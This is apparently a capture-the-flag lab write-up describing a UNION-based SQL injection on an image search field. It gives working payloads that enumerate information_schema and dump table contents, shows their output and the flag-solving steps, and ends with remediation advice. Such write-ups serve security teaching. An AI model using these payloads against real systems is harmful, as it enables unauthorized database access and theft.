 # SQL injection on the image search field in the image search page

## Vulnerability Details:

### Affected URL: `http://192.168.56.102/?page=searchimg&id=`

### Issue Description:
This security issue pertains to a vulnerability in the SQL injection within the website. SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT title, url FROM list_images WHERE images.id = ${input_value}
```
The query would print the title and the url of the image with the given image ID. Since we don't need the website to display data about any specific image, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:
```
SELECT title, url FROM list_images WHERE images.id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
```

The result reveals a `list_images` table, which should correspond to the available table, and two interesting columns: `title` and `comment`. Subsequently, we will send the following request to retrieve these two fields from all images in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT title, comment FROM list_images
```

OUTPUT:
```
ID: -1 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we decoded the MD5 string which gives `albatroz` and then calculated the `SHA256` sum of it to obtain the flag.

### Immediate Actions Required:
* SQL Injection Prevention:
   - Perform input validation and sanitization to prevent SQL injection attacks.
   - Use parameterized queries or prepared statements to handle dynamic SQL queries securely.
   - Implement strict access controls and least privilege principles to restrict database access.
